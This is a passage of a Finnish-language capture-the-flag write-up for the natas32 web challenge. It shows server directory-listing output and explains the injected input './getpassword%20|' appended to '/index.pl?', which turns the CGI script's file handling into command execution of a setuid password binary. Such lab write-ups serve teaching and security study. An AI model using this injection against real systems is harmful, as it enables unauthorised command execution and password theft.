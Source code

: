 ```
    overflow: hidden;
}
.btn-file input[type=file] {
    position: absolute;
    top: 0;
    right: 0;
    min-width: 100%;
    min-height: 100%;
    font-size: 100px;
    text-align: right;
    filter: alpha(opacity=0);
    opacity: 0;
    outline: none;
    background: white;
    cursor: inherit;
    display: block;
}

</style>


<h1>natas32</h1>
<div id="content">
<table class="sortable table table-hover table-striped"><tr><th>.:
</th></tr><tr><td>total 156
</td></tr><tr><td>drwxr-x--- 5 natas32 natas32  4096 Aug 15 13:06 bootstrap-3.3.6-dist
</td></tr><tr><td>-rwsrwx--- 1 root    natas32 16096 Aug 15 13:06 getpassword
</td></tr><tr><td>-rw-r--r-- 1 root    root     9740 Aug 15 13:06 index-source.html
</td></tr><tr><td>-r-xr-x--- 1 natas32 natas32  2968 Aug 15 13:06 index.pl
</td></tr><tr><td>-r-xr-x--- 1 natas32 natas32 97180 Aug 15 13:06 jquery-1.12.3.min.js
</td></tr><tr><td>-r-xr-x--- 1 natas32 natas32 16877 Aug 15 13:06 sorttable.js
</td></tr><tr><td>drwxr-x--- 2 natas32 natas32  4096 Sep 14 13:03 tmp
</td></tr></table><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```


Nyt alkoi pelittää, koska aikaisemmassa (ylempi komento) testauksessa , niin meitä kiinnostaa toi polku **(./getpassword)** niin tähän polkuun url `/index.pl?` jälkeen pitää vähä rakentaa, jotta se alkaa pelittää siksi mentiin näin.

Tässä koskien tätä polku hakemistoa **(./getpassword)** - miksi suoritettiin näin: `./getpassword%20|` vs `./getpassword`
- %20 tarkoittaa välilyöntiä (spaec) URL muodossa ja se on URL enkoodattu siksi menee näin ja mukaan jos shellissä menisi näin `./getpassword |`
- Putki osalta tarkoittaa komennon ulostulon eteenpäin - ja todennäköisesti CGI skriptin kautta näkyviin.
- Putki on tärkeä osa, koska Unix-shellissä ja se ohjaa vasemman puolen komennon ulostulon oikean puolen syötteeksi.
